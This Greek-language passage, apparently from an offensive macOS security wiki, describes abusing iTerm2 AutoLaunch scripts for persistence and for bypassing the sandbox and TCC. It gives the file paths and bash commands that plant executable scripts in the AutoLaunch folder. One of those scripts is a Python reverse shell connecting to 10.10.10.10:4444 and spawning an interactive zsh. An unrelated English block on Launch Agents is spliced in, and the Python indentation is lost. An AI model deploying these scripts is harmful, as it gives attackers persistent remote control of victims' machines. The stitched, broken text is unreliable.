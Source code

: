 Ανάλυση: [https://theevilbit.github.io/beyond/beyond\_0002/](https://theevilbit.github.io/beyond/beyond\_0002/)

* Χρήσιμο για παράκαμψη αμμοθονίου: [✅](https://emojipedia.org/check-mark-button)
* Παράκαμψη TCC: [✅](https://emojipedia.org/check-mark-button)
* Το iTerm2 χρησιμοποιείται για τη χορήγηση δικαιωμάτων TCC

#### Τοποθεσίες

* **`~/Library/Application Support/iTerm2/Scripts/AutoLaunch`**
* **Σήμανση**: Άνοιγμα iTerm
* **`~/Library/Application Support/iTerm2/Scripts/AutoLaunch.scpt`**
* **Σήμανση**: Άνοιγμα iTerm
* **`~/Library/Preferences/com.googlecode.iterm2.plist`**
* **Σήμανση**: Άνοιγμα iTerm

#### Περιγραφή & Εκμετάλλευση

Τα scripts που αποθηκεύονται στο **`~/Library/Application Support/iTerm2/Scripts/AutoLaunch`** θα εκτελεστούν. Για παράδειγμα:
```bash
cat > "$HOME/Library/Application Support/iTerm2/Scripts/AutoLaunch/a.sh" << EOF
#!/bin/bash
touch /tmp/iterm2-autolaunch
EOF

chmod +x "$HOME/Library/Application Support/iTerm2/Scripts/AutoLaunch/a.sh"
```
```markdown
## macOS Auto Start Locations

### Launch Agents

Launch Agents are used to run processes when a user logs in. They are stored in `~/Library/LaunchAgents/` and `/Library/LaunchAgents/`.

### Launch Daemons

Launch Daemons are used to run processes at system boot or login. They are stored in `/Library/LaunchDaemons/`.

### Login Items

Login Items are applications that open when a user logs in. They can be managed in `System Preferences > Users & Groups > Login Items`.

### Startup Items

Startup Items are legacy items that automatically launch when a user logs in. They are stored in `/Library/StartupItems/`.
```
```bash
cat > "$HOME/Library/Application Support/iTerm2/Scripts/AutoLaunch/a.py" << EOF
#!/usr/bin/env python3
import iterm2,socket,subprocess,os

async def main(connection):
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.10.10',4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['zsh','-i']);
async with iterm2.CustomControlSequenceMonitor(
connection, "shared-secret", r'^create-window$') as mon:
while True:
match = await mon.async_get()
await iterm2.Window.async_create(connection)

iterm2.run_forever(main)
```